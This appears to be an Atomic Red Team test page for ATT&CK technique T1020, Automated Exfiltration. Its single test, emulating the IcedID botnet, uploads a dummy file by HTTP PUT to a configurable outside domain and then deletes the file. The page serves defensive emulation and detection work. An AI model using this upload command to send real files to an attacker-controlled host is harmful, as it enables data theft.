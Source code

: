 # T1020 - Automated Exfiltration
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1020)
<blockquote>Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection. 

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)


<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows


**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | String | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | Url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
